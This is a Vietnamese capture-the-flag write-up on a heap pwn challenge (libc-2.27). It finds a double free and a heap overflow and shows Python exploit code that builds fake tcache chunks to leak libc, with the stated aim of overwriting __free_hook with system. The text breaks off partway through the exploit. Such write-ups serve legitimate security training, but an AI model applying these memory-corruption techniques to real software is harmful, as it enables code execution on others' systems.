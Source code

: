 **1.Find bug**
  - ![image](https://user-images.githubusercontent.com/113702087/220030510-859dae24-8668-41e8-9bde-a9f9eaab5c06.png)
  - PIE và Fortify tắt.
  - ![image](https://user-images.githubusercontent.com/113702087/220022145-4c49d73e-b46c-4791-91fe-aef24fdd12c1.png)
  - chương trình thực hiện nhập name tại 0x602060 và thực thi read data trên heap được cấp phát tại 0x602088, tuy nhiên giới hạn của việc free là 8 lần.
  - Tại hàm info ta có thể in ra name.
  - do libc-2.27 nên ta có thể double free đê gây lỗi uaf.
  - ![image](https://user-images.githubusercontent.com/113702087/220031133-961eedfe-ec72-4ba1-bf49-77ac6223b435.png)
  - ta có thể thấy rằng khi tại hàm Malloc() nó thực hiện read_input(ptr, uint(size - 16)) nếu size < 16 thì có thể read với size lớn gây lỗi heap overflow.
  - Dựa vào các lỗi trên ta có thể leak libc = cách đưa addr libc vào tcache và giải phóng name lúc đó name -> libc, lúc này ta dùng info để leak libc ra. Khi có libc thì có thể overwrite free_hook thành system
  - ta sẽ chọn địa chỉ name+16 là fake chunk và libc là stderr

**2. Exploit**
 # Leak libc
  - Để đưa libc và fakechunk về cùng 1 chunk thì ta cần control size = 0x90 của chunk, với fakechunk thì khá dễ vì ta có thể control nó bằng cách nhập từ name
  - Tạo 4 chunk và giải phóng nó.
  ```
  malloc(size_, b'a')
  freeandinfo(b'2')
  freeandinfo(b'2')
  malloc(size_ + 24, b'aaaa')
  freeandinfo(b'2')
  malloc(size_ + 40, b'aaaa')
  freeandinfo(b'2')
  malloc(size_ + 56, b'aaaa')
  freeandinfo(b'2')
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/220047525-8f9171a4-f8eb-4f37-9ea9-f344ff47e241.png)
  - chunk đầu ta sẽ dùng double free, overflow nó để control các chunk dưới, và chứa lbic_stderr+30 để control size libc_stderr
  - chunk 2 ta đưa stderr, cấp phát vào stderr và thay đổi nó thành libc_stderr-0x30 thay đổi stderr ở chunk 1
  - chunk 3 đưa fakechunk vào để có thể free vào chunk mong muốn ( ở đây là chunk chứa libc)
  - chunk 4 cũng là fakechunk để ta có thể control được ptr vì chương trình đã giới hạn việc free.
  - setup các chunk
  ```
  payload = p64(stderr) + b'\x00'*16 + p64(0x31) + p64(stderr) + b'\x00'*32 + p64(0x41) + p64(name_addr + 16) + b'\x00'*48 + p64(0x51) + p64(name_addr + 16)

  malloc(size_, payload)
  malloc(size_ + 24, b'a')
  malloc(size_ + 24, b'\x50')
  malloc(size_, b'a')
  malloc(size_, b'a')
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/220051030-a5ac7daf-cc2e-4fc3-a0a0-d91c349660ab.png)
  - thay đổi size libc_stderr và đưa vào tcache_c
  ```
  payload = b'\x00'*40 + p64(0x91)
  malloc(size_, payload)
  malloc(size_ + 24, b'\x87')
  freeandinfo(b'2')
  ```
  - 
